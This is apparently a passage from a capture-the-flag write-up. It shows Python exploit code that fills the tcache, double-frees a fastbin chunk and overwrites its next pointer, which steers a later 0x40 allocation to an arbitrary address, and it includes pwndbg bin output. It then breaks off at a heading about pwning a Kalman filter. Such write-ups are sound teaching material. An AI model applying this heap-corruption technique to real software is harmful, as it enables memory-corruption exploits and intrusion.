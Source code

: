 ```python
for i in range(7):
    add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
# List: NULL <-> A <-> ... (7) ... <-> A <-> ... (7)

for i in range(7):
    remove_last_measurement()
# List: NULL <-> A <-> ... (7) ... <-> A, and tcache 0x40 is full

remove_last_measurement()
# NULL <-> A (free) <-> ... (7) ...

for i in range(7):
    remove_last_measurement()
# NULL <-> A (free)

remove_last_measurement()
# double free fastbin A
# NULL <-> NULL

for i in range(7):
    add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
# drain tcache 0x40

# Allocate A, overwrite its next pointer
target = 0x4141414141414141
add_measurement(target, 0, 0, 0)

# consume tcache so we can consume fastbins
for i in range(7):
    add_measurement(u64(p8(i+1)*8), u64(b"X"*8), 0, u64(b"Z"*8))

# Consume 1 pad chunk from fastbin
add_measurement(0, 0, 0, 0) # pad

# next 0x40 fastbin alloc will end up at 0x4141414141414141

# pwndbg> bins
# ...
# fastbins
# 0x20: 0x0
# 0x30: 0x0
# 0x40: 0x4141414141414141 ('AAAAAAAA')
# 0x50: 0x0
# 0x60: 0x0
# 0x70: 0x0
# 0x80: 0x0
# ...

```

## Pwning the Kalman Filter
